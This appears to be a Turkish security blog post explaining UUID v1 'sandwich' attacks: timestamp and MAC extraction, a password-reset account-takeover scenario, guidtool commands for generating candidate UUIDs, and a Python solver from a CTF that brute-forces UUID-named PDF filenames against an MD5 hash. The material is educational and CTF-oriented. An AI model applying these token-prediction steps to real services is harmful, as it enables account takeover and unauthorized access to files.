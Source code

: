 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
---
```



Sandwich Saldırısı - UUID v1 



#### UUID 

Globally Unique Identifier (GUID) olarakta tanımlanabilir.Zafiyetli versiyonları olduğu gibi zamanla daha güçlü versiyonlarıda ortaya çıkmaktadır.
Rastgele üretilen bu benzersiz değerler saniyeninde ötesinde mikro veya nanosaniye olarak üretimler gerçekleşmektedir.Üst versiyonlarda üretilen değerler
her ne kadar fazlaca üretim gerçekleştirilsede ihtimaller çok çok düşük olsada yinede 0'a yakın değildir.Yani benzer bir değer üretilebilmektedir fakat bunu tespit etmek
bir hayli çok zor bir durumdur.Kopyalanma olasılığı düşüktür fakat asla sıfır derecede değildir.

Örnek bir UUID değeri 

```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

#### Exploitation

Sandwich saldırısı genelde UUID 1 Versiyonunda karşımıza çıkmaktadır.Zaman kavramına göre ve MAC cinsinden üretim yapmaktadır.Account Takeover,BOLA veya IDOR gibi 
zafiyetlere sebep olmaktadır ve kritik bir öneme sahiptir.Ayrıca aynı zamanda damgası içerisinde üretilen değerler kopyalanabilir ve saldırı vektörü oluşturulabilir.

Linuxta `UUID` komutu ile örnek değerler üretebiliriz.

UUID v1 : `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`

Burada bulunan `a367` ve `86bc` değişmiştir fakat bazen bu Version 1 de değişiklik göstermemektedir.Ayrıca değişiklik gösterilse bile `005056260027` MAC bölümü sabit kalmaktadır.

UUID v4 : `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e` 

Burada ise tamamen ayrıldığı görülmektedir.Yani olasılıklar her ne kadar sıfır olmasada sıfıra yakın bir derecede üretmektedir.
%0.000001 derece olsa bile %100 güvenli değildir ve %99.9 güvenlik sağlasada %0.1 bir zafiyet söz konusu olabilir.
UUID v1 ise bu derece oldukça fazla artmaktadır.

Ayrıca UUID Saldırıları için `https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248` Burp Suite eklentileri ile bunu keşfedebilirsiniz.

Ayrıca Bkz. `https://datatracker.ietf.org/doc/html/rfc4122`

![folder_s3](/img/UUID/uuidv1.png)


10 Adet seri üretim

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

Burada görüldüğü üzere zaman tamamen hassas işlenmektedir.

`Timestamp: 139384289967400006`
`Timestamp: 139384289967400007`

Değişen kısımlar ise `f2c6e447-3145-11ef` tamamen buradan ibarettir ve zaman kavramı burada oluşmaktadır.
`MAC address: 08:00:20:0c:9a:66` ise MAC Adresidir yani bu değerler genelde sabit olabilmektedir.

#### UUID Extract

UUID Değerimiz `5c1dba54-ee3e-11ee-a951-0242ac120002` 

Bizim buradaki zaman değerimiz `1eeee3e5c1dba54` bundan ibarettir.

![folder_s3](/img/UUID/UUID2.jpg)

Timestamp ise ;

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Bunu Nano'dan Decimal olarak bir türe dönüştürmemiz gerekmektedir.

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

`13931059009` elde edilir bu bizim TimeStamp değerimizdir ve Epoch Time olarak yuvarlamamız gerekmektedir. \
`1970-01-01 - 12219292800` baz alınarak bu çıkarımı elde edebiliriz ve `13931059009 - 12219292800` 1711766209 sayısını elde ederiz. \
1711766209 Timestamp değeri ise bize `Saturday, 30 March 2024 02:36:49` tarihini vermektedir.Böylelikte tarihi tamamen elde etmiş oluruz. 

Ayrıca GuidReaper aracı ilede UUID Decode işlemi yapabiliriz.

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Burada tersine işlemler gerçekleştirilerek zaman damgasında 'Time Manipulation' tekniği ile Exploitation gerçekleştirilebilir. 

#### İstismar Senaryosu

1.Sistemde bir şifre sıfırlama bağlantısı oluşturduğunu ve bunu UUID kullanarak yapıldığını varsayalım. \
2.Bir adet hesap oluşturalım `uuid@attack.com` hesabımız bir kenarda dursun ve `victim@attack.com` hesabına saldırı düzenleyelim. \
3.İki hesaptada aynı zamanda şifre yenileme bağlantısı ileteceğiz.Senkronize bir şekilde aynı zamanda bağlantıyı gönderelim.  

victim@attack.com Adresine Giden Sıfırlama Bağlantısı ; \

```js
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:06.471000` \

uuid@attack.com Adresine Giden Sıfırlama Bağlantısı ; 

```js
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:10.167000` 

Aralarında sadece 4 Saniyelik bir oynama saptanmıştır ve bu oran otomatikleştirildiğinde `Concurrency Flaws` kullanılarak saldırı gerçekleştirildiğinde \
oldukça yüksek bir risk oluşturulacaktır.

GuidTool ilede UUID değerleri üretmek mümkündür.

`guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 ` komutu ile belirlenen bir zamana yönelik fazlaca üretim gerçekleşmektedir. \
Burada çok fazla olasılık bulunmaktadır ve sayı bir hayli fazladır.

Böylelikle Broken Object Level Authorization , Insecure Direct Object References veya Account Takeover gibi zafiyetlere yol açabilmektedir.

Yayınladığım araç ilede Exploitation işlemi gerçekleştirilebilir. 


[github.com/cagrieser/Uuid-Exploitation ](https://github.com/cagrieser/Uuid-Exploitation)

IguCtf Etkinkiğinde hazırladığımız araçta ise erişim yetkisi bulunulmayan dosyaya erişim elde edilmesine yönelik bir senaryo yer almaktadır. \ 
Buradan yola çıkarak UUIDv1 Sandwich Exploitation ile flag elde edilebilir.

Ayrıca Dosya Adı Hash değeri verilerek herhangi bir kendi makinamızda işlemi daha seri bir şekilde hem sunucuyu yormadan hemde daha hızlı bir şekilde ulaşabiliriz. \
Buradaki amaç sadece dosyaya erişim sağlamaktır.

Aşağıda bulunan Python scripti ile ise verilen değerler üzerinden eşleştirme yapılarak hedef dosyaya erişim sağlanabilir ve Metadata verilerine erişim sağlanarak değer elde edilebilir.

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'


def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        
        pdf_content = response.content
        
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        metadata = pdf_file.getDocumentInfo()
        
        return metadata
    else:
        print(f"Failed to download PDF from {pdf_url}. Status code: {response.status_code}")
        return None

with open('FullAttackUUID.txt', 'r') as file:
    lines = file.readlines()

for line in lines:
    pdf_filename = line.strip() + '.pdf'  
    hashed_value = md5_hash(pdf_filename)
    
    # Compare with the target hash
    if hashed_value == target_hash:
        print(Fore.GREEN + f"Match found: {pdf_filename}")
        
        pdf_url = 'https://demindensimdiyegeldim.igusiber.com.tr/{}'.format(pdf_filename)
        metadata = get_pdf_metadata_from_url(pdf_url)
       
        if metadata:
            print("PDF Metadata:")
            for key, value in metadata.items():
                print(f"{key}: {value}")
        else:
            print("Failed to fetch PDF metadata.")
        
        break  
    else:
        print(f"No match: {pdf_filename} -> {hashed_value}")

```

